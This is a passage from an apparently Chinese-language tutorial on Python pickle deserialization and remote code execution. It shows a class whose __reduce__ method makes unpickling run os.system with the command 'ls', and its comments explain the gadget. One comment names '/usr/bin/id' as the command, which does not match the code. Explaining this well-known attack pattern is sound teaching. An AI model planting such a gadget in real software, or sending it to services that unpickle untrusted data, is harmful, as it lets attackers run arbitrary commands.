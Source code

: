 4. 参数传递给程序

   什么叫RCE啊

```
import pickle
import os

class Test2(object):
    def __reduce__(self):
    	#被调用函数的参数
        cmd = "ls" 
        return (os.system,(cmd,))

if __name__ == "__main__":
    test = Test2()
    #执行序列化操作
    result1 = pickle.dumps(test)
    #执行反序列化操作
    result2 = pickle.loads(result1)

# __reduce__()魔法方法的返回值:
# return(os.system,(cmd,))
# 1.满足返回一个元组，元组中有两个参数
# 2.第一个参数是被调用函数 : os.system()
# 3.第二个参数是一个元组:(cmd,),元组中被调用的参数 cmd
# 4. 因此序列化时被解析执行的代码是 os.system("/usr/bin/id")
```

![3](Pickle反序列化.assets/3.png)
